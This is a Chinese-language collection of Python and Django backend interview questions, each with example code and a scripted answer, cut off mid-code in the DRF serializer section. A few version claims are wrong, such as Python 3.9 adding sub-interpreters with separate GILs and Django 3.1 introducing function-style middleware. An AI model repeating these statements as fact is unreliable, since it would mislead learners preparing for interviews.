# Python 全栈后端面试题集

> 覆盖：Python 核心 / Django / 数据库 / Redis / 分布式 / 微服务 / DevOps / AI / 安全
> 每题含完整代码 + 深度面试话术

---

## 一、Python 核心

### Q1: 装饰器原理？手写一个计时装饰器，再写一个带参数的装饰器

```python
from functools import wraps
import time

# ===== 无参数装饰器 =====
def timer(func):
    @wraps(func)
    def wrapper(*args, **kwargs):
        start = time.perf_counter()
        result = func(*args, **kwargs)
        cost = time.perf_counter() - start
        print(f"{func.__name__} 耗时 {cost:.4f}s")
        return result
    return wrapper

# ===== 带参数装饰器：retry(max_attempts=3, delay=1) =====
def retry(max_attempts=3, delay=1):
    def decorator(func):
        @wraps(func)
        def wrapper(*args, **kwargs):
            for attempt in range(1, max_attempts + 1):
                try:
                    return func(*args, **kwargs)
                except Exception as e:
                    if attempt == max_attempts:
                        raise
                    print(f"第 {attempt} 次失败: {e}，{delay}秒后重试...")
                    time.sleep(delay)
            return None
        return wrapper
    return decorator

@retry(max_attempts=3, delay=2)
def call_external_api(url):
    resp = requests.get(url, timeout=5)
    resp.raise_for_status()
    return resp.json()
```

**面试话术**：

"装饰器的本质是**高阶函数**——它接收一个函数作为参数，返回一个新的函数。当你写下 `@timer` 时，Python 解释器实际上执行的是 `process_data = timer(process_data)`，这是一个**语法糖**。

为什么必须用 `@wraps`？因为不加它的话，`process_data.__name__` 会变成 `'wrapper'`，`process_data.__doc__` 也会丢失。这在调试和生成 API 文档时会带来麻烦。`functools.wraps` 做的事情很简单——把原函数的 `__name__`、`__doc__`、`__module__` 等元信息复制到 wrapper 上。

关于带参数装饰器——这里多了一层嵌套。`@retry(max_attempts=3)` 的执行过程是：先调用 `retry(max_attempts=3)` 返回 `decorator` 函数，然后再把被装饰的函数传给 `decorator`。所以带参数的装饰器实际是三层嵌套——外层的函数接收配置参数，中间层是真正的装饰器，内层是 wrapper。

装饰器的一个常见坑是——**它是在模块加载时执行的，而不是在函数调用时**。这意味着装饰器里的初始化逻辑只执行一次。比如你写一个连接池装饰器，连接池的创建应该放在第一次调用时懒加载，而不是在装饰器定义时就创建。

生产环境里的典型应用场景：
- 认证鉴权（`@login_required`）
- 接口限流（`@rate_limit(max_calls=100, period=60)`）
- 事务管理（`@transaction.atomic`）
- 缓存（`@cache_result(ttl=300)`）
- 日志与监控埋点"

---

### Q2: 生成器 vs 迭代器 vs 列表，以及 `yield from` 和协程的关系

```python
# 1. 迭代器协议：实现 __iter__ + __next__
class CountDown:
    def __init__(self, start):
        self.current = start

    def __iter__(self):
        return self

    def __next__(self):
        if self.current <= 0:
            raise StopIteration
        self.current -= 1
        return self.current + 1

# 2. 生成器函数：yield 隐式实现上述协议
def countdown(start):
    while start > 0:
        yield start
        start -= 1

# 3. 生成器表达式（惰性）
squares = (x ** 2 for x in range(10**7))  # 内存几乎为 0

# 4. yield from：委托子生成器
def chain_generators(*iterables):
    for it in iterables:
        yield from it  # 等价于: for item in it: yield item

# 5. 双向通信：send() 方法
def accumulator():
    total = 0
    while True:
        value = yield total          # 接收外部传入的值
        if value is None:
            break
        total += value

acc = accumulator()
next(acc)                            # 启动生成器，执行到第一个 yield
print(acc.send(10))  # 10            # 发送 10，返回累加结果
print(acc.send(20))  # 30
print(acc.send(30))  # 60
acc.close()
```

**面试话术**：

"这三个概念有递进关系。**迭代器**是最基础的协议——任何实现了 `__iter__` 和 `__next__` 方法的对象都是迭代器。**生成器**是迭代器的一种简化实现，你用 `yield` 关键字写一个函数，Python 会自动帮你生成一个迭代器对象，不用手写那两个魔术方法。

核心差异在于**内存模型**。列表是一次性把所有数据加载到内存里，1000 万个数大约占 80MB；而生成器是惰性求值的，每次只产生一个值，用后即弃，内存占用几乎可以忽略不计。所以在处理大文件读取、数据库游标遍历、无限序列这些场景，生成器是唯一可行的选择。

但它有个重要的代价：**只能遍历一次**。生成器的状态机是单向的，你没办法回到之前的状态，也没办法像列表一样做随机访问和切片。如果真的需要多次遍历，要么转成列表，要么用 `itertools.tee()` 拷贝两份。

`yield from` 是 Python 3.3 引入的语法，它解决的是嵌套生成器的委托问题。如果没有 `yield from`，你在外层生成器里遍历子生成器需要写 `for item in sub_gen: yield item`，但现在一行就够了。更重要的是，`yield from` 建立了调用方和子生成器之间的**双向通道**——调用方的 `send()` 和 `throw()` 可以直接穿透到子生成器。

这里引出一个容易被忽视的能力：生成器不只是产出数据，它还可以**接收数据**。`send()` 方法可以向生成器内部传值，这让生成器变成了一个可以双向通信的协程。实际上 Python 原生的协程就是基于 `yield from` 实现的，直到 3.5 版本才引入 `async/await` 语法糖来替代。"

---

### Q3: GIL 的本质是什么？Python 3.9 后有什么变化？实际项目如何绕过？

```python
# === CPU 密集型：多进程（每个进程独立 GIL + 独立内存空间） ===
from concurrent.futures import ProcessPoolExecutor
import multiprocessing as mp

def cpu_bound(n):
    return sum(i * i for i in range(n))

with ProcessPoolExecutor(max_workers=mp.cpu_count()) as executor:
    results = list(executor.map(cpu_bound, [10**7] * 8))

# === IO 密集型：多线程（线程在等待 IO 时主动释放 GIL） ===
from concurrent.futures import ThreadPoolExecutor

def io_bound(url):
    return requests.get(url, timeout=10).text

with ThreadPoolExecutor(max_workers=20) as executor:
    results = list(executor.map(io_bound, urls * 100))

# === 混合方案：进程池 + 每个进程内协程 ===
async def async_fetch(session, url):
    async with session.get(url) as resp:
        return await resp.text()

def run_async_in_process(urls_chunk):
    """每个子进程运行一个事件循环"""
    async def main():
        async with aiohttp.ClientSession() as session:
            tasks = [async_fetch(session, url) for url in urls_chunk]
            return await asyncio.gather(*tasks)
    return asyncio.run(main())

# 主进程
chunks = [urls[i::4] for i in range(4)]  # 分成 4 份
with ProcessPoolExecutor(max_workers=4) as executor:
    results = list(executor.map(run_async_in_process, chunks))
```

**面试话术**：

"GIL 是 CPython 解释器层面的互斥锁，不是一个 Python 语言特性。它的设计初衷很简单——CPython 的内存管理依赖引用计数，而引用计数不是线程安全的。如果每个对象修改引用计数都要加锁，性能会很差，所以设计者在解释器层面加了一把大锁，一次只让一个线程执行字节码。

这块锁的释放机制是关键。当前线程在执行一定数量的字节码指令后，或者在遇到 IO 操作时，会主动释放 GIL。这就是为什么**多线程对 IO 密集型任务非常有效**——线程在等待网络响应或磁盘读取时会释放 GIL，其他线程就可以继续执行。但对于纯 CPU 计算，线程之间会频繁争抢 GIL，反而比单线程还慢。

Python 3.9 引入了一个重要的改进：子解释器（sub-interpreters）。每个子解释器有独立的 GIL，可以实现真正意义上的多核并行。但它的缺点是子解释器之间不共享内存，需要通过队列传递数据，类似多进程的通信模型。

实际项目中的选型策略我是这样做的：**计算密集型用多进程**——比如图像处理、科学计算、PDF 生成，用 `ProcessPoolExecutor` 把任务拆分到多个进程，每个进程跑在独立 CPU 核心上。**IO 密集型用多线程或协程**——比如 Web 爬虫、API 聚合，用 `ThreadPoolExecutor` 或 `asyncio`，前者简单粗暴，后者性能更好但没有生态兼容性问题需要注意。**最极致的方案是进程 + 协程的组合**——先按 CPU 核心数分进程，每个进程内用 asyncio 跑事件循环，双重压榨硬件性能。

还有一个点容易被忽略——**C 扩展是可以释放 GIL 的**。`numpy`、`pandas` 的底层运算都是 C 实现的，它们在计算时会调用 `Py_BEGIN_ALLOW_THREADS` 宏释放 GIL，所以数据处理任务用多线程实际上也能并行。"

---

### Q4: `asyncio` 事件循环原理，以及与多线程的本质区别



```python
import asyncio
import aiohttp

# ===== 并发下载：3 个请求在 1 秒内全部完成，而非 3 秒 =====
async def download(session, url):
    async with session.get(url) as resp:
        data = await resp.text()
        return len(data)

async def main():
    async with aiohttp.ClientSession() as session:
        tasks = [download(session, f"https://httpbin.org/delay/1") for _ in range(3)]
        results = await asyncio.gather(*tasks)
        print(f"三个请求总耗时约 1 秒，而非 3 秒。下载字节数: {results}")

asyncio.run(main())

# ===== 带超时 + 异常处理 =====
async def fetch_with_timeout(url, timeout=5):
    try:
        async with asyncio.timeout(timeout):
            async with aiohttp.ClientSession() as session:
                async with session.get(url) as resp:
                    return await resp.text()
    except asyncio.TimeoutError:
        return f"{url} 超时"

# ===== 生产者-消费者模式（异步队列） =====
async def producer(queue, n):
    for i in range(n):
        await asyncio.sleep(0.1)
        await queue.put(f"task-{i}")
    await queue.put(None)  # 终止信号

async def consumer(queue, worker_id):
    while True:
        item = await queue.get()
        if item is None:          # 收到终止信号
            await queue.put(None) # 传递给下一个 consumer
            break
        await asyncio.sleep(0.2)  # 模拟处理
        print(f"Worker-{worker_id} 处理了 {item}")

async def pipeline():
    queue = asyncio.Queue(maxsize=10)
    await asyncio.gather(
        producer(queue, 20),
        consumer(queue, 1),
        consumer(queue, 2),
    )

# ===== 同步原语：asyncio.Lock =====
lock = asyncio.Lock()

async def critical_section(name):
    async with lock:
        # 同一时刻只有一个协程在这里执行
        await asyncio.sleep(0.1)
```

**面试话术**：

"asyncio 的核心思想是**协程之间协作式多任务**，而不是操作系统强制的抢占式多任务。它的运行机制可以概括为：一个单线程的事件循环（Event Loop），管理着成百上千个协程。当协程 A 遇到 `await` 时，它挂起自己，把控制权交还给事件循环；事件循环找到另一个就绪的协程 B 继续执行。这里的挂起和恢复完全在用户态完成——没有线程切换的系统调用开销，没有上下文保存和恢复的代价。

这和多线程有本质区别。多线程的调度是操作系统内核按时间片强制的，一个线程可能在任意一条指令执行完后被暂停，你无法控制切换时机，所以**数据竞争无处不在**。而协程的切换点非常明确——就是 `await` 语句，你不写 `await` 就不会切换。这意味着一句 `x += 1` 在多线程里不是原子的需要加锁，但在协程里天然就是原子的（前提是 x 是普通变量而非共享数据结构）。

但这个模型也有代价。如果一个协程执行了阻塞的同步代码（比如 `time.sleep(5)`），它会霸占整个事件循环，其他所有协程都会饿死。这叫做**协程饥饿**。解决方法是：所有可能阻塞的操作都用 async 版本——`await asyncio.sleep()` 代替 `time.sleep()`，`aiohttp` 代替 `requests`，`asyncpg` 代替 `psycopg2`。

还有一个面试官喜欢追问的点：asyncio 内部是怎么实现并发的？它依赖操作系统的 **IO 多路复用** 机制——Linux 上是 epoll，macOS 上是 kqueue。事件循环在底层维护一个文件描述符集合，把所有协程等待的 socket 注册进去，然后调用 `epoll_wait()` 等待。当某个 socket 就绪时，事件循环就把对应的协程唤醒。你的代码感觉像是并发的，但背后是一个 `while True` 循环在不断检查和调度。"

---

### Q5: Python 内存管理——从引用计数到 GC 分代回收



```python
import sys
import gc
import ctypes

# ===== 1. 引用计数演示 =====
a = []
print(sys.getrefcount(a))   # 2（a + getrefcount 内部参数）
b = a
print(sys.getrefcount(a))   # 3
c = [a]
print(sys.getrefcount(a))   # 4
b = None                    # 解除 b 的引用
print(sys.getrefcount(a))   # 3

# ===== 2. 循环引用：引用计数无法回收 =====
class Node:
    def __init__(self):
        self.ref = None

x = Node()
y = Node()
x.ref = y
y.ref = x                   # 形成循环
del x; del y                # 引用计数仍为 1，无法回收

# 手动触发 GC
gc.collect()                # 标记-清除算法发现不可达对象
print(gc.garbage)           # []

# ===== 3. 查看分代统计 =====
print(gc.get_stats())
# [
#   {'collections': 100, 'collected': 500, 'uncollectable': 0},   # gen0
#   {'collections': 10,  'collected': 50,  'uncollectable': 0},   # gen1
#   {'collections': 1,   'collected': 5,   'uncollectable': 0},   # gen2
# ]

# ===== 4. 弱引用：不增加引用计数的引用 =====
import weakref

class MyClass:
    pass

obj = MyClass()
weak_ref = weakref.ref(obj)    # 不增加引用计数
print(weak_ref())             # <MyClass object>
del obj
print(weak_ref())             # None（对象已被回收）

# ===== 5. 内存分析工具 =====
# import tracemalloc
# tracemalloc.start()
# ... 运行代码 ...
# snapshot = tracemalloc.take_snapshot()
# top_stats = snapshot.statistics('lineno')  # 按行统计内存占用
```

**面试话术**：

"CPython 的内存管理是**引用计数为主、标记清除为辅、分代回收优化**的三层架构。

先说引用计数——每个 Python 对象在 C 结构体的头部都有一个 `ob_refcnt` 字段，记录有多少个变量指向它。当你 `a = SomeObject()` 时计数为 1，`b = a` 时计数变为 2，`del a` 时计数减 1。当引用计数降到 0，解释器立即调用 `__del__` 然后释放内存。这个机制的优点是实时性好——对象用完了立马回收，不会积累垃圾。

但它有一个致命缺陷：无法处理**循环引用**。两个对象互相引用，即使外部没有变量指向它们，各自的引用计数也至少是 1，永远不会降到 0。这就是内存泄漏的经典场景。

这时候**标记-清除**算法上场了。Python 的 GC 维护了一个对象的有向图，定期从根对象（全局变量、栈上的局部变量）出发做可达性分析。标记不到的就算是不可达的垃圾，统一清除。但这个全图扫描开销很大，所以 Python 引入了**分代回收**。

分代回收基于一个经验假设——'大多数对象朝生夕死'。Python 把对象分为三代：新创建的对象在 gen0，经历一次 GC 扫描还存活就晋升到 gen1，再存活晋升到 gen2。GC 的频率逐代递减——gen0 扫得很频繁（代价低、回收率高），gen2 很少扫（代价高、回收率低）。你可以用 `gc.get_stats()` 看到这三代的统计数据。

生产环境的注意事项：
- **避免循环引用**。在写 `__del__` 方法的类中尤其要小心，因为 GC 无法确定循环引用中 `__del__` 的调用顺序。
- **大对象可以用 `weakref`**。比如缓存的 value 不需要阻止 key 被回收，用弱引用可以防止缓存本身造成内存泄漏。
- **内存泄漏排查**用 `tracemalloc` 模块。它能告诉你哪行代码分配了最多的内存，比 `objgraph` 更精准。"

---

### Q6: 上下文管理器与 `with` 语句的实现方式

```python
# 方式 1：类实现 __enter__ + __exit__
class DatabaseConnection:
    def __init__(self, dsn):
        self.dsn = dsn

    def __enter__(self):
        self.conn = psycopg2.connect(self.dsn)
        self.cursor = self.conn.cursor()
        return self.cursor           # 返回给 as 后的变量

    def __exit__(self, exc_type, exc_val, exc_tb):
        if exc_type is None:
            self.conn.commit()
        else:
            self.conn.rollback()     # 异常时回滚
        self.cursor.close()
        self.conn.close()
        return False                  # False: 不吞异常，继续向外抛出

# 使用
with DatabaseConnection("postgresql://...") as cursor:
    cursor.execute("INSERT INTO orders VALUES (...)")
# 退出 with 块时自动 commit，有异常则 rollback

# 方式 2：contextlib.contextmanager（生成器实现）
from contextlib import contextmanager

@contextmanager
def db_transaction(dsn):
    conn = psycopg2.connect(dsn)
    cursor = conn.cursor()
    try:
        yield cursor                 # 执行 with 块内的代码
        conn.commit()                # 正常退出才到这一步
    except Exception:
        conn.rollback()
        raise
    finally:
        cursor.close()
        conn.close()

# 方式 3：异步上下文管理器
class AsyncRedis:
    async def __aenter__(self):
        self.conn = await aioredis.create_connection(...)
        return self.conn

    async def __aexit__(self, *args):
        self.conn.close()
        await self.conn.wait_closed()
```

**面试话术**：

"`with` 语句的本质是**确保一段代码执行完毕后资源一定被释放**，无论中间是否发生异常。它依赖两个魔术方法：`__enter__` 在进入 `with` 块时调用，返回值赋给 `as` 后面的变量；`__exit__` 在退出 `with` 块时调用——无论退出是因为代码执行完毕、`return`、还是抛了异常。

`__exit__` 的三个参数专门处理异常情况：`exc_type`、`exc_val`、`exc_tb` 分别对应异常类型、值和 traceback。如果 `with` 块正常退出，这三个参数都是 `None`。如果发生了异常，你可以在 `__exit__` 里决定是否吞掉异常——返回 `True` 表示异常已处理不再传播，返回 `False` 或 `None` 表示继续向外抛。

数据库连接是最经典的用例。`__enter__` 里打开连接和游标，`__exit__` 里根据是否有异常决定 commit 还是 rollback。这个模式比 `try/finally` 优雅太多了，因为资源的生命周期与使用它的代码块天然绑定在一起。

`contextlib.contextmanager` 是一个更轻量的实现方式——你把 `yield` 前的代码当作 `__enter__`，`yield` 后的代码当作 `__exit__`。但要注意 `yield` 本身不会 `return`，所以 `as` 后面的变量接收的是 `yield cursor` 中的 `cursor`。这个方式的缺点是如果 `yield` 在 try 块内，异常处理逻辑不够直观。

异步版本是 Python 3.7 引入的 `__aenter__` 和 `__aexit__`，用在 `async with` 语句中。原理一样，只是 __aenter__ 和 __aexit__ 返回的是 awaitable 对象。"

---

## 二、Django 框架

### Q7: Django 请求完整生命周期



**面试话术**：

"这个问题看似基础，但回答得好能展示你对 Django 源码级别的理解。我按时间顺序讲：

**第一步：WSGI/ASGI 适配**。请求先到达 Gunicorn/uWSGI 这样的 WSGI 服务器，它把 HTTP 请求解析成 environ 字典（包含 `REQUEST_METHOD`、`PATH_INFO`、`QUERY_STRING` 等），然后调用 Django 的 `WSGIHandler`。这个 handler 的 `__call__` 方法每次请求被调用一次，它创建了一个 `HttpRequest` 对象，把 environ 字典的内容填充进去。

**第二步：中间件链的 request 阶段**。Django 维护了一个中间件列表，按照 `MIDDLEWARE` 配置的顺序依次调用每个中间件的 `__call__` 方法。这是一个洋葱模型——请求层层向内穿过中间件，到达视图处理完后再层层向外返回。每个中间件可以在 `process_request` 阶段做预处理（比如认证、限流、日志），也可以在 `process_response` 阶段做后处理（比如添加响应头）。

**第三步：URL 路由**。`URLResolver` 按照 `urlpatterns` 列表从上到下匹配，找到第一个匹配的 pattern 后，提取路径参数（如 `pk=5`），然后调用对应的视图函数或类视图。

**第四步：视图处理 + ORM**。视图函数执行业务逻辑。如果用到了 ORM，这里有一个关键点：**QuerySet 是惰性的**。你写 `User.objects.filter(is_active=True)` 时并没有执行查询，只是构造了一个 QuerySet 对象。真正的 SQL 在迭代、切片、`list()`、`.first()`、`.exists()` 等终操作时才执行。这就是为什么你可以在循环中不断 `.filter()` 追加条件而不会触发多次查询。

还有一个隐式的执行时机：模板渲染。如果你在模板里写 `{{ user.profile.avatar }}`，Django 模板引擎会触发 `user.profile` 的外键查询。这就是 N+1 问题的常见来源。

**第五步：响应返回**。视图返回 `HttpResponse` 对象，中间件链反向执行 `process_response` 方法（从里向外），最终 `WSGIHandler` 把响应序列化为 HTTP 字节流返回给 WSGI 服务器。

**第六步：资源清理**。请求结束后，Django 会关闭数据库连接（如果 `CONN_MAX_AGE=0`）、清理请求级别的缓存。如果是在 `with transaction.atomic()` 块内，此时也会提交或回滚事务。"

---

### Q8: Django ORM 查询优化——从 N+1 到 QuerySet 底层机制

```python
# ===== 1. select_related: JOIN 避免 N+1（ForeignKey / OneToOne） =====
# ❌ 100 次查询
for order in Order.objects.all()[:100]:
    print(order.user.username)             # 每次循环触发 1 次 SQL

# ✅ 1 次 JOIN 查询
for order in Order.objects.select_related('user').all()[:100]:
    print(order.user.username)
# SQL: SELECT * FROM order_info INNER JOIN auth_user ON ...

# ===== 2. prefetch_related: 额外查询 + Python 拼接（多对多 / 反向外键） =====
# ❌ 100 × N 次查询
for order in Order.objects.all()[:100]:
    for item in order.items.all():          # 每次循环触发 1 次 SQL
        print(item.product_name)

# ✅ 2 次查询
orders = Order.objects.prefetch_related('items').all()[:100]
for order in orders:
    for item in order.items.all():           # 从缓存读取，不查数据库
        print(item.product_name)

# ===== 3. Prefetch 对象：带条件的预取 =====
from django.db.models import Prefetch
paid_items = OrderItem.objects.filter(status='paid')
orders = Order.objects.prefetch_related(
    Prefetch('items', queryset=paid_items, to_attr='paid_items')
)

# ===== 4. only / defer：只查需要的列 =====
# 只需要 username，不查 password_hash 等大字段
users = User.objects.only('id', 'username').all()

# ===== 5. values / values_list：返回字典/元组而非 Model 实例 =====
# ORM 对象创建有开销，聚合查询用 values 更快
order_stats = Order.objects.values('status').annotate(count=Count('id'))

# ===== 6. bulk_create：批量插入 =====
Order.objects.bulk_create([
    Order(user_id=i, amount=100) for i in range(1000)
], batch_size=200)  # 分 5 批，每批 200 条

# ===== 7. update vs save：批量更新 vs 逐条更新 =====
Order.objects.filter(status='pending').update(status='cancelled')
# 一条 SQL 完成，而不是 N 条 UPDATE + N 条 SELECT
```

**面试话术**：

"ORM 优化我习惯分三个层次来看。

**第一层是避免 N+1 查询**，这是最常见的性能杀手。`select_related` 用 SQL JOIN 一次性把关联表的数据查回来，但只适用于外键和一对一关系。它的局限是 JOIN 产生的笛卡尔积可能很大，而且不支持多对多。`prefetch_related` 用两次独立的查询分别查主表和关联表，然后在 Python 层面做拼接，适合多对多和反向外键。关键能通过 `Prefetch` 对象给预取查出来的 QuerySet 加条件过滤，避免把不需要的数据也拉到内存里。

**第二层是减少数据传输量**。`only()` 和 `defer()` 让 ORM 只 select 你需要的列，而不是 `SELECT *`。这在表中有大文本字段或者 JSON 字段时效果尤其明显。`values()` 和 `values_list()` 更彻底——不创建 Model 实例，直接返回字典或元组，省去了 ORM 对象构造、属性描述符查找和信号触发的开销。

**第三层是批量操作**。`bulk_create` 把多条 INSERT 合并成一条多值 INSERT 语句，性能提升是数量级的——1000 条记录用循环 `.save()` 需要 1000 次数据库往返和 1000 个事务，用 `bulk_create(batch_size=200)` 只需要 5 次往返和 5 个事务。同样，`.update()` 一个 QuerySet 比循环 `.save()` 高效得多。

最后提醒一个容易被忽视的点：**QuerySet 是惰性的且会被缓存**。同一个 QuerySet 对象如果被迭代过，第二次迭代不会重新查数据库。但如果每次都重新构造 QuerySet（比如 `User.objects.filter(...)`），那每次都会重新查询。所以如果你需要多次遍历同一个结果集，先 `list(queryset)` 转成列表。"

---

### Q9: Django 中间件机制与自定义实战

```python
# ===== 1. 请求追踪中间件（注入 trace_id，全链路追踪） =====
import uuid
import logging
import time
import json

logger = logging.getLogger('request')

class RequestTracingMiddleware:
    """在每个请求头注入 trace_id，实现全链路追踪"""
    def __init__(self, get_response):
        self.get_response = get_response

    def __call__(self, request):
        # 从上游获取或生成新的 trace_id
        trace_id = request.META.get('HTTP_X_TRACE_ID') or str(uuid.uuid4())
        request.trace_id = trace_id
        request.request_id = str(uuid.uuid4())
        request.start_time = time.time()

        response = self.get_response(request)

        # 计算耗时
        duration = time.time() - request.start_time

        # 结构化日志
        logger.info(json.dumps({
            'trace_id': trace_id,
            'request_id': request.request_id,
            'method': request.method,
            'path': request.path,
            'status': response.status_code,
            'duration_ms': round(duration * 1000, 2),
            'user_id': request.user.id if request.user.is_authenticated else None,
            'ip': request.META.get('HTTP_X_FORWARDED_FOR', request.META.get('REMOTE_ADDR')),
        }, ensure_ascii=False))

        # 响应头中返回 trace_id，方便前端上报
        response['X-Trace-ID'] = trace_id
        response['X-Request-ID'] = request.request_id
        return response


# ===== 2. 加密响应中间件（给特定 API 做响应体加密） =====
from django.utils.deprecation import MiddlewareMixin
import base64
from cryptography.fernet import Fernet

class EncryptResponseMiddleware(MiddlewareMixin):
    """对标记了 encrypt_response 属性的视图做响应加密"""
    ENCRYPTED_PREFIX = '/api/v1/secure/'

    def process_response(self, request, response):
        if request.path.startswith(self.ENCRYPTED_PREFIX) and \
           response.status_code == 200 and \
           'application/json' in response.get('Content-Type', ''):
            cipher = Fernet(settings.ENCRYPTION_KEY)
            encrypted = cipher.encrypt(response.content)
            response.content = base64.b64encode(encrypted)
            response['X-Encrypted'] = '1'
        return response
```

**面试话术**：

"中间件的执行是经典的**洋葱模型**。假设你配置了 A、B、C 三个中间件，请求的处理顺序是 A→B→C→视图→C→B→A。每个中间件的 `__call__` 方法里，`self.get_response(request)` 这行代码就是分界线——之前的代码在请求阶段执行，之后的代码在响应阶段执行。

自定义中间件时不需要操心类继承关系——Django 3.1 后只需要一个 callable 对象接收 `get_response` 并返回一个接收 `request` 的函数即可。但老项目里你还会看到 `MiddlewareMixin`，它是为了兼容 Django 1.10 之前的写法保留的，现在可以不用。

我在生产环境用的最频繁的中间件有三个：

1. **请求追踪中间件**：注入 `trace_id` 到每个请求，配合 ELK 或 Jaeger 做分布式链路追踪。关键是这个 `trace_id` 要从上游传递——如果 Nginx 或网关已经生成了 `X-Trace-ID` 头，中间件应该复用它而不是重新生成，这样才能把整条链路上的所有服务串联起来。

2. **限流中间件**：基于 Redis 做滑动窗口计数器，按 IP 或 user_id 做限流。需要注意两点：一是 `get_response` 前判断是否超限，超限直接返回 429 不继续往下走；二是 Redis 操作应该是毫秒级的，不能因为限流逻辑阻塞了正常请求。

3. **异常处理中间件**：捕获视图中未处理的异常，统一格式化成 `{'code': ..., 'message': ...}` 的响应体，而不是让 Django 返回 HTML 错误页面。这样前端 API 调用者收到的始终是结构化的 JSON，不会因为格式不一致导致解析崩溃。

还有一个踩过的坑：**中间件的顺序非常重要**。比如 `CorsMiddleware` 必须放在最前面，因为跨域预检 OPTIONS 请求需要在其他中间件处理之前就返回；`AuthenticationMiddleware` 必须在需要获取 `request.user` 的其他中间件之前。"

---

### Q10: Django 信号 (Signals) 的原理与陷阱

```python
from django.db.models.signals import post_save, pre_save, pre_delete
from django.dispatch import receiver
from django.db import transaction

# ===== 基础用法 =====
@receiver(post_save, sender=Order)
def on_order_created(sender, instance, created, **kwargs):
    if created:
        # 发送通知
        send_order_notification.delay(instance.id)

# ===== 陷阱演示：信号内的异常会中断原操作 =====
@receiver(post_save, sender=User)
def send_welcome_email(sender, instance, created, **kwargs):
    if created:
        send_email(instance.email)  # 如果邮件服务挂了 → 用户无法注册！

# ===== 最佳实践：信号只做轻量操作，重任务丢 Celery =====
@receiver(post_save, sender=User)
def handle_new_user(sender, instance, created, **kwargs):
    if created:
        # 信号只做同步的轻量操作
        Profile.objects.create(user=instance)  # ✅ 创建关联数据
        # 耗时操作异步
        send_welcome_email.delay(instance.id)   # ✅ 交给 Celery

# ===== 信号在事务内执行：事务回滚时信号不会回滚 =====
@receiver(post_save, sender=Order)
def deduct_inventory(sender, instance, created, **kwargs):
    if created:
        # ⚠️ 如果外层事务回滚了，库存已经被扣了且无法回滚！
        Inventory.objects.filter(product_id=instance.product_id).update(
            stock=F('stock') - instance.quantity
        )

# 解决方案：使用 transaction.on_commit()
@receiver(post_save, sender=Order)
def deduct_inventory_safe(sender, instance, created, **kwargs):
    if created:
        # 事务提交后才执行
        transaction.on_commit(
            lambda: Inventory.objects.filter(product_id=instance.product_id).update(
                stock=F('stock') - instance.quantity
            )
        )
```

**面试话术**：

"Django 信号本质上是**观察者模式**的实现，用来解耦模块间的通信。比如订单模块不需要知道用户模块的存在，但用户注册后需要创建 Profile——信号就是最自然的解决方案。

但我需要强调三个生产中的血泪教训：

**第一，信号是同步执行的**。`post_save` 会在 `save()` 方法内部被同步调用，这意味着信号的执行时间会直接增加 HTTP 请求的响应时间。所以第二个原则是**信号内只做轻量操作**。创建关联 Profile 这种同步操作是 OK 的，它只是一个 INSERT 语句。但发邮件、推消息、生成报表这种操作必须丢给 Celery，否则你的接口响应时间从 50ms 变成 3000ms。

**第二，信号内的异常会向上传播**。如果邮件发送服务挂了，`send_email()` 抛异常，整个用户注册流程都会失败——用户看到的是注册失败，这显然不合理。所以要确保每一个 `@receiver` 内部都有 try/except 包裹，或者至少保证信号逻辑本身不会致命崩溃。

**第三，事务一致性是最隐蔽的坑**。`post_save` 信号是在 **save() 方法执行后**、**事务提交前** 调用的。如果外层有 `transaction.atomic()`，信号里的操作在同一个事务内。但问题是——如果你在信号里扣减了 Redis 库存，然后外层事务回滚了，订单没有真正落库，但 Redis 的扣减操作无法回滚。这就是分布式事务的经典难题。

解决方法是用 `transaction.on_commit()`。它注册的回调只在事务真正提交后才执行。如果事务回滚了，回调不会被调用。这在扣减库存、发送消息、触发下游流程时是必需的保护措施。"

---

### Q11: DRF 序列化器的深度使用——嵌套序列化、校验、性能优化

```python
from rest_framework import serializers
from django.db import transaction

# ===== 1. 嵌套序列化（写操作） =====
class OrderItemSerializer(serializers.ModelSerializer):
    class Meta:
        model = OrderItem
        fields = ['product_id', 'product_name', 'quantity', 'unit_price']

class OrderCreateSerializer(serializers.ModelSerializer):
